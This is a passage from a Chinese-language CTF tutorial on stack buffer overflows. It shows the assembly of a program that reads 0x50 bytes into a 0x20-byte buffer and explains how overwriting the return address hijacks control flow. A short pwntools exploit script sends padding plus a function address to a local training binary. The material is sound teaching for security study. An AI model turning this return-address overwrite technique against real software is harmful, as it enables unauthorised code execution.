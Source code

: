 上面的程序对应的汇编大致如下：

```
func:
    ...
main:
    push    rbp
    mov     rbp, rsp
    sub     rsp, 0x20
    lea     rax, [rbp-0x20]
    mov     edx, 0x50
    mov     rsi, rax
    mov     edi, 0
    mov     eax, 0
    call    read
    mov     eax, 0
    leave
    ret
```

对应的栈帧变化如下（添加底色的汇编指令为即将执行的指令，`call read` 为 GIF 的开始）

![img](https://hello-ctf.com/hc-pwn/images/Stack_Overflow/stack_overflow.gif)

由上图可以看出，只要我们适当地控制输入的值就可以实现修改返回地址，从而实现控制程序的程序流。

### 字符串栈溢出劫持执行流[¶](https://hello-ctf.com/hc-pwn/Stack_Overflow/#_9)

为了快速构造合适的输入值，实现对程序流的控制，这里引入里一个基于 python 的工具 `pwntools`

```
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

target_address = elf.sym["func"]

payload = b"A" * 0x28
payload += p64(target_address)

p.send(payload)

p.interactive()
```
